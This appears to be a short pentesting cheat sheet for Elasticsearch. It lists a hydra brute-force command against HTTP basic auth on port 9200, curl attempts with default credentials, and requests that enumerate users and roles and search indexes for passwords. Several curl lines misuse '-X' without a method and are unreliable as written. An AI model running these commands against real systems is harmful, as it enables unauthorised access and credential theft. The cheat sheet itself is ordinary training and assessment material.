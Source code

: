 ```yaml
---
title: Elasticsearch Pentesting
desc: Default port is 9200, 9300.
tags: [9200, 9300, Curl, Elasticsearch, Hydra, Web]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Brute Force Credentials**

    Crack the "Authorization" header in the web page.

    ```sh
    hydra -L usernames.txt -P passwords.txt <target-ip> -s 9200 http-get /
    ```

<br />

## Access over HTTP

Elasticsearch uses HTTP.

```sh
# Basic
curl -X http://10.0.0.1:9200/

# Default credentials
curl -X http://admin:elasticadmin@10.0.0.1:9200/
curl -X http://elastic:changeme@10.0.0.1:9200/


# User Enumeration
curl -X http://10.0.0.1:9200/_security/role
curl -X http://10.0.0.1:9200/_security/user

curl -X http://10.0.0.1:9200/_xpack/security/user

# Search
curl -X http://10.0.0.1:9200/_search?q=username
curl -X http://10.0.0.1:9200/_search?q=password

# Others
curl -X http://10.0.0.1:9200/_cat/
curl -X http://10.0.0.1:9200/_cluster/
curl -X http://10.0.0.1:9200/_nodes/
curl -X http://10.0.0.1:9200/_remote/
curl -X http://10.0.0.1:9200/_security/
```
